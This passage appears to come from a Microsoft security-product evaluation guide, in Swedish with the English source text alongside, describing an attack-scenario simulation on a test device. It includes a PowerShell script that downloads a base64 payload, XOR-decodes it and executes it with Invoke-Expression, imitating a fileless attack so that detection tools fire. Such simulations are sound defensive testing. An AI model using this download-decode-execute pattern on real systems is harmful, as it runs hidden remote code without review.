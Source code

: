 <span data-ttu-id="e6d23-147">Om du använder en befintlig klientorganisation och implementerar enhetsgrupper skapar du en dedikerad enhetsgrupp för testenheten och pushar den till den översta nivån i konfigurations-UX.</span><span class="sxs-lookup"><span data-stu-id="e6d23-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="e6d23-148">Simulera attackscenariot</span><span class="sxs-lookup"><span data-stu-id="e6d23-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="e6d23-149">Så här kör du simuleringen av attackscenariot:</span><span class="sxs-lookup"><span data-stu-id="e6d23-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="e6d23-150">Logga in på testenheten med testanvändarkontot.</span><span class="sxs-lookup"><span data-stu-id="e6d23-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="e6d23-151">Öppna Windows PowerShell testenhet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="e6d23-152">Kopiera följande simuleringsskript:</span><span class="sxs-lookup"><span data-stu-id="e6d23-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="e6d23-153">Om du öppnar dokumentet i en webbläsare kan du stöta på problem med att kopiera hela texten utan att förlora vissa tecken eller införa extra radbrytningar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="e6d23-154">Hämta dokumentet och öppna det i Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="e6d23-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="e6d23-155">När du uppmanas till det klistrar du in och kör det kopierade skriptet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-156">Om du kör PowerShell med fjärrskrivbordsprotokoll (RDP) använder du kommandot Skriv urklippstext i RDP-klienten eftersom **metoden CTRL-V** för snabbtangent eller högerklicks-inklistring kanske inte fungerar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="e6d23-157">Senaste versioner av PowerShell accepterar inte heller den metoden ibland. Du kan behöva kopiera till Anteckningar i minnet först, kopiera den i den virtuella datorn och sedan klistra in den i PowerShell.</span><span class="sxs-lookup"><span data-stu-id="e6d23-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
